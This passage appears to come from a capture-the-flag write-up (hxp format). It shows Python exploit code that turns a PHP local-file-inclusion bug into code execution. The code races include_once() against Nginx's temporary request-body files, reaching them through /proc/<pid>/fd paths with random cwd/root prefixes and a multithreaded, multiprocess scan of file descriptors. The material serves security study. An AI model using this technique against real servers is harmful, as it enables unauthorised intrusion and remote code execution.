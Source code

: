 ```python
    component_num = random.randint(0, 10)
    for _ in range(component_num):
        pid = random.choice(nginx_pids)
        if random.randint(0, 1) == 0:
            path += f"/proc/{pid}/cwd"
        else:
            path += f"/proc/{pid}/root"
    return path

def read_file(requests_session, nginx_pid, fd, nginx_pids):
    nginx_pid_list = list(nginx_pids)
    while True:
        path = generate_random_path_prefix(nginx_pid_list)
        path += f"/proc/{nginx_pid}/fd/{fd}"
        try:
            d = requests_session.get(SERVER + f"/?action=include&file={path}").text
        except:
            continue
        # Flags are formatted as hxp{<flag>}
        if "hxp" in d:
            print("Found flag! ")
            print(d)

def read_file_worker(requests_session, nginx_pid, nginx_pids):
    # Scan Nginx FDs between 10 - 45 in a loop. Since files and sockets keep closing - it's very common for the request body FD to open within this range
    for fd in range(10, 45):
        thread = threading.Thread(target = read_file, args = (requests_session, nginx_pid, fd, nginx_pids))
        thread.start()

def read_file_multiprocess(requests_session, nginx_pids):
    for nginx_pid in nginx_pids:
        p = multiprocessing.Process(target=read_file_worker, args=(requests_session, nginx_pid, nginx_pids))
        p.start()

if __name__ == "__main__":
    print('[DEBUG] Creating requests session')
    requests_session = create_requests_session()
    print('[DEBUG] Getting Nginx pids')
    nginx_pids = get_nginx_pids(requests_session)
    print(f'[DEBUG] Nginx pids: {nginx_pids}')
    print('[DEBUG] Starting payload sending')
    send_payload_multiprocess(requests_session)
    print('[DEBUG] Starting fd readers')
    read_file_multiprocess(requests_session, nginx_pids)
```

Our exploit tries to get PHP to `include_once()` Nginx’s request body temporary file before it’s deleted. In order to do that, we need to constantly create many HTTP requests with our payload as a (large) request body, as fast as possible.
